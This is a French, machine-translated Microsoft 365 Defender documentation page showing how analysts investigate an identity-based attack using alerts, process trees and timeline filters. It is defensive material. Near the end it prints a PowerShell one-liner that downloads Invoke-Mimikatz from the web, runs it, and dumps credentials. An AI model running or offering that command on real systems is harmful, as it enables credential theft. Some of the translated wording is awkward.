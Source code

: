 ```yaml
---
title: Exemple d'attaque basée sur l'identité
description: Analyse pas à pas d'une attaque basée sur l'identité.
keywords: incidents, alertes, examiner, corrélation, attaque, ordinateurs, appareils, utilisateurs, identités, identité, boîte aux lettres, courrier électronique, 365, microsoft, m365, réponse aux incidents, cyber-attaque
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: e56d6d5d78101da1f6da4c14ade25e80aa5b5063
ms.sourcegitcommit: 05f40904f8278f53643efa76a907968b5c662d9a
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 04/30/2021
ms.locfileid: "52114679"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d'attaque basée sur l'identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour l'identité peut vous aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Dans la mesure où Defender pour l'identité s'intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender for Identity, telles que les tentatives d'élévation de privilège Netlogon suspectes.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l'attaque dans Microsoft Defender pour l'identité

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection sous **l'onglet Alertes** de la page Incidents. Dans l'exemple suivant, la source de détection est filtrée sur **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exemple de filtrage de la source de détection pour Defender for Identity":::

La sélection de **l'alerte d'attaque** suspectée de surpassage de hachage permet d'Microsoft Cloud App Security page qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant En savoir plus sur ce **type** d'alerte pour lire une [description](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) de l'attaque ainsi que des suggestions de correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exemple d'alerte d'attaque par passe-viapasse suspectée"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Étude de la même attaque dans Microsoft Defender pour le point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l'activité sur un point de terminaison. Sélectionnez l'incident dans la file d'attente des incidents, puis sélectionnez **l'onglet Alertes.** À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée comme PEPT signifie Endpoint Detection and Response, qui est Defender for Endpoint. À partir de là, l'analyste sélectionne une alerte détectée par PEPT.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exemple de détection et de réponse de point de terminaison dans Defender pour le point de terminaison"::: 

La page d'alerte affiche diverses informations pertinentes telles que le nom de l'appareil, le nom d'utilisateur, l'état de l'examen automatique et les détails de l'alerte. L'article d'alerte représente une représentation visuelle de l'arborescence de processus. L'arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l'alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exemple d'arborescence de processus d'alerte dans Defender pour le point de terminaison"::: 

Chaque processus peut être étendu pour afficher des détails supplémentaires. Les détails qu'un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d'un script malveillant, les adresses IP de connexion sortante et d'autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exemple de détails de processus dans Defender pour le point de terminaison":::
 
En sélectionnant **Voir dans la** chronologie, un analyste peut aller encore plus loin pour déterminer l'heure exacte de la compromission. 

Microsoft Defender pour le point de terminaison peut détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l'activité de ligne de commande, certaines activités seraient considérées comme étant anodins jusqu'à ce qu'elles créent un fichier ou une activité malveillante. Par conséquent, l'utilisation de la chronologie permet aux analystes de mettre l'alerte en contexte avec l'activité qui l'entoure pour déterminer la source ou l'heure d'origine de l'attaque qui, sinon, est masquée par l'activité courante du système de fichiers et des utilisateurs. 

Pour ce faire, un analyste commence au moment de la détection de l'alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer à quel moment l'activité d'origine qui a conduit à l'activité malveillante a réellement commencé. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exemple de démarrage au moment de la détection de l'alerte"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d'activation de logiciels de confiance Windows, d'autres connexions communes aux sites Microsoft, l'activité Internet tierce, l'activité Microsoft Endpoint Configuration Manager et toute autre activité faible contre les activités suspectes. Une façon d'y parvenir consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l'analyste ne souhaite pas afficher. 

Dans l'image ci-dessous, l'analyste a filtré pour afficher uniquement les événements réseau et de traitement. Cela permet à l'analyste de voir les connexions réseau et les processus qui entourent l'événement où Bloc-notes a établi une connexion avec une adresse IP, ce que nous avons également vu dans l'arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exemple de la façon Bloc-notes utilisé pour établir une connexion sortante malveillante"::: 

Dans cet événement particulier, Bloc-notes utilisé pour établir une connexion sortante malveillante. Toutefois, souvent, les personnes malveillantes utilisent simplement iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car en règle iexplorer.exe processus sont considérés comme une activité régulière du navigateur web.

Un autre élément à rechercher dans la chronologie serait l'utilisation de PowerShell pour les connexions sortantes. L'analyste recherche les connexions PowerShell réussies avec des commandes telles qu'une connexion sortante à un site web hébergeant `IEX (New-Object Net.Webclient)` un fichier malveillant. 

Dans l'exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d'un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le [chemin d'accès de l'enquête](first-incident-path-phishing.md) sur le hameçonnage.

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Analyser des incidents](investigate-incidents.md)
